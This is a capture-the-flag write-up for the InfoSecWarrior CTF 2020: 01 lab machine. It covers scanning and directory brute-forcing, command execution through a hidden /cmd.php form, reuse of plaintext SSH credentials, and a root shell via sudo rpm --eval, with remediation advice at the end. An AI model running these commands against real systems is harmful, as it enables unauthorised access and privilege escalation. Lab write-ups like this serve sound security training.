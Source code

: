 

#  InfoSecWarrior CTF 2020 01

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [InfoSecWarrior CTF 2020: 01](https://www.vulnhub.com/entry/infosecwarrior-ctf-2020-01,446/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*This VM is given as challenge 1 in InfoSecWarrior CTF 2020. Official website : https://www.infosecwarrior.com/. Box Designed by: MAALP & CyberKnight00*


## Summary
InfoSecWarrior CTF 2020: 01 starts when I found the domain name  `infosecwarrior.com` after performing a dictionary attack with `feroxbuster` and find it in the `/sitemap.xml` endpoint and it also contains the link to the `/index.htnl` endpoint, when I visit it then I find a hidden form to `/cmd.php` that allows executing bash command with the `www-data` users. When I read the `cmd.php` file, I find plaintext credentials `isw0:123456789blabla` that works to use it in the `ssh` connection, after I connect it, I get the user flag, when exploring the sudo privileges I find I can run `/bin/rpm` as the root user, and when I check the [gtfobins to rpm](https://gtfobins.github.io/gtfobins/rpm/), then I find I can use the `--eval` switch to spawn a shell, then I get the root shell.


1. CWE-540: Inclusion of Sensitive Information in Source Code
2. CWE-912: Hidden Functionality
3. CWE-256: Plaintext Storage of a Password
4. CWE-250: Execution with Unnecessary Privileges


#VirtualBox #Nmap #Feroxbuster #gtfobins #RPM

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), then I identify in the target prompt the IP `192.168.2.23`:

When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.2.23`:

![evidence](./static/00-virtual-box.png)

And I start scanning the target with `nmap`:
```shell
$ nmap -sV -oA scans/nmap-tcp-scan 192.168.2.23
# Nmap 7.92 scan initiated Fri Jan 20 14:30:03 2023 as: nmap -sV -oA scans/nmap-tcp-scan 192.168.2.23
Nmap scan report for infosecwarrior.com (192.168.2.23)
Host is up (0.0054s latency).
Not shown: 983 filtered tcp ports (no-response), 15 filtered tcp ports (host-unreach)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.15 ((CentOS))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 20 14:30:23 2023 -- 1 IP address (1 host up) scanned in 20.29 seconds
```
And I identify 2 open ports, and the `OpenSSH 5.3` service runs on `22` TCP, and the `Apache httpd 2.2.15` service runs on `80` TCP, and it runs on CentOS.
When I run the `feroxbuster` command with a list of SecList:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt \
> -u http://192.168.2.23 -x php,txt,md,jpg,xml
```
Then I find multiple endpoints:

![evidence](./static/01-feroxbuster.png)

When I visit the `/sitemap.xml`:
```shell
$ curl http://192.168.2.23/sitemap.xml
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://infosecwarrior.com/sitemap/0.9">
  <url>
      <loc>http://infosecwarrior.com/index.htnl</loc>
      <lastmod>2020-02-13</lastmod>
...SNIPPED...
```
Then I can see the domain name `infosecwarrior.com`, and I add it to my `/etc/hosts`:
```shell
$ echo "192.168.2.23 infosecwarrior.com" | sudo tee -a /etc/hosts
```


## Normal use case

Given I access `http://infosecwarrior.com`, then I can see the Apache default page

![evidence](./static/02-index.png)

When I visit `http://infosecwarrior.com/wordpress`, then I see the text of an error in the database

![evidence](./static/03-wordpress.png)

## Dynamic detection
The website contains a hidden functionality that allows bash command injection.

When I access `http://infosecwarrior.com/index.htnl`, and that is the link I found in the `/sitemap.xml` endpoint, then I can see a random gif:

![evidence](./static/04-index-html.png)

When I see the source code, then I see a hidden form from lines 6 to 11:
```html
06 <form action = "/cmd.php" hidden="True" method = "GET">
07 command
08     <input type = "text" name = "AI" value = "" maxlength = "100" />
09 <br />
10 <input type = "submit" value ="Submit" />
11 </form>
```
And I can assume that I could run commands at the `/cmd.php` endpoint

Given I can access `http://infosecwarrior.com/cmd.php`, then I start trying to run commands with the `AI` parameter. When I do a `GET` request with the `curl` command:
```shell
$ curl "http://infosecwarrior.com/cmd.php?AI=id"
Now the main part what it is loooooool<br>Try other method
```
Then I get a error response, and for that message I use the `OPTIONS` method:
```shell
$ curl -X OPTIONS  "http://infosecwarrior.com/cmd.php" -v
...SNIPPED...
< Server: Apache/2.2.15 (CentOS)
< X-Powered-By: PHP/5.3.3
< Location: https://www.armourinfosec.com/category/information-gathering/
...SNIPPED...
```
But it does not return the other available methods, but I can identify the `PHP version 5.3.3`, and the `Location` header has a link to some enumeration techniques, when I use the `POST` method with the `curl` command:
```shell
$ curl  "http://infosecwarrior.com/cmd.php" -d "AI=id"
You Found ME : - (<pre>uid=48(apache) gid=48(apache) groups=48(apache)
context=system_u:system_r:httpd_t:s0
```
Then I  can conclude that with a `POST` request to the `/cmd.php` endpoint, and with the `AI`'parameter I can run `bash` commands.

## Exploitation
Bash command injection, read plaintext credentials, and use Sudo privileges.

Given I can access `http://infosecwarrior.com/cmd.php`, And the `AI` parameter I can run bash commands in a `POST` request, then I can execute the following command:
```shell
$ curl  "http://infosecwarrior.com/cmd.php" -d "AI=ls -la"
You Found ME : - (<pre>total 424
...
-rw-r--r--. 1 root   root      440 Feb 17  2020 cmd.php
-rw-r--r--. 1 root   root   309817 Feb 13  2020 hacker.gif
-rw-r--r--. 1 root   root      366 Feb 13  2020 index.htnl
-rw-r--r--. 1 root   root    94026 Feb 13  2020 minnions.gif
-rw-r--r--. 1 root   root      120 Feb 17  2020 note.txt
...SNIPPED...
```
When I read the code in the `cmd.php` file:
```shell
$ curl  "http://infosecwarrior.com/cmd.php" -d "AI=cat cmd.php
```
Then I get the output:

![evidence](./static/05-cmd-cat.png)

And I can see plaintext credentials `isw0:123456789blabla`, and I guess I could use them in an `ssh` connection. When I use the `ssh` command:
```shell
$ sshpass -p "123456789blabla" ssh isw0@192.168.2.23
```
Then I get the `isw0` shell, and I see the user flag :

![evidence](./static/06-censored-userflag.png)

## Privilege escalation

When I enumerate the server, I use the `sudo` command:
```shell
$ sudo -l
...SNIPPED...
User isw0 may run the following commands on this host:
(!root) NOPASSWD: /bin/bash
(root) /bin/ping, (root) /bin/ping6, (root) /bin/rpm, (root) /bin/ls,
(root) /bin/mktem
```
And I can see there are 5 binaries that I can run with root privileges. When I search for the binaries in gtfobins, then I see that I can get a shell with the command [rpm](https://gtfobins.github.io/gtfobins/rpm/), and I follow the instructions.


When I run the `/bin/rpm` command:
```shell
$ sudo /bin/rpm --eval '%{lua:os.execute("/bin/sh")}'
```
Then I get the root shell, and I can see the root flag :

![evidence](./static/07-censored-rootfalg.png)

## Remediation

Given I can access the `/cmd.php` endpoint with a public user, and I can run bash commands, and in the `cmd.php` file, there are shell credentials in plaintext, and the user of those credentials has sudo privileges, then they have to avoid exposing critical resources to public users, and they must not store plaintext credentials, and not reuse them, and less write them into a file in the webroot, and avoid giving unnecessary root privileges to a user.then with that, it may not be possible to get the root's shell.
